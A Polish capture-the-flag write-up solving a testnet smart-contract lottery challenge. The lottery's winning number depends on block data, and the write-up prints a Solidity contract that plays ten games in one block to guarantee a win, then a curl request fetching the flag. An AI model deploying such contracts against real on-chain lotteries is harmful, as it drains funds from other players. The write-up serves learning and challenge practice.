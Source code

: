 # Różdżka chaosu, Kości ze starcem, smart contracts

## Opis

"W zachodniej części Dębiny, przy wejściu do tak zwanego Labiryntu, siedzi samotny starzec. Może dotrzymasz mu towarzystwa?"

## Rozwiązanie

Odwiedzamy starca, który kieruje nas do [https://ropsten.etherscan.io/address/0xE4CF74485e1272e3aDfEe65A724411098bdD1422](https://ropsten.etherscan.io/address/0xE4CF74485e1272e3aDfEe65A724411098bdD1422).
Kod kontraktu podglądamy na stronie. Dostępny jest w pliku [game.sol](./game.sol).

Musimy podać poprawny numer aby został wyemitowany event SecureLotteryWinner.
Do rozwiązania wykorzystałem konto [Metamask](https://metamask.io/) oraz [Remix](https://remix.ethereum.org/)

Widzimy, że to znów loteria, mamy zgadnąć liczbę od 0 do 10 w danej grze. Dlatego w jednym bloku tworzymy sobie dziesięć gier (bo raz sprawdzona gra nie może być sprawdzona więcej razy), które będą mieć ten sam wygrywający numer (bo jest on wyliczany z danych obecnego bloku).
Tworzymy kontrakt, który stworzy dziesięć gier (zapamięta je w tablicy) i potem dla każdej gry sprawdzi jeden numer (od 0 do 10).

```
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.6;


interface ISecureLottery {
  function play(uint256 candidate) external returns (uint256 gameId);

  function claim(uint256 gameId) external;
}

contract Bruter {
    uint256[10] gamesIDs;
    
    function ten_plays(address addr) external{
        ISecureLottery lot = ISecureLottery(addr);
        
        for (uint i = 0; i < 10; i++){
            gamesIDs[i] = lot.play(i);
        }
    }
    
    function claim_all(address addr) external{
        ISecureLottery lot = ISecureLottery(addr);
        
        for (uint i = 0; i < 10; i++){
            lot.claim(gamesIDs[i]);
        }
    }
}
```

Dalsze kroki są podobne do kroków w zadaniu "Kości ze starcem". Wywołujemy metodę: `ten_plays`, a potem `claim_all`.

Sprawdzamy detale transakcji na ropsten (jest wygrywająca).
![success](./img/success.png)

Wysyłamy podpisaną wiadomość i odbieramy flagę:
```
curl -v --data signature=0xdc61779ab284f6d2a13b6b8313325759712e605dd352d2c8695c52c12ea1b7760457c739ca308f3e85e7d238170431ac71be69008d906db74462ab18f24cd5271b https://rozdzka.securing.pl/getflag/0x3e24be9be389be158fbe1985e81e11bd6debc4c25280a6fd16accd748fe64761
```

![win](./img/win.png)
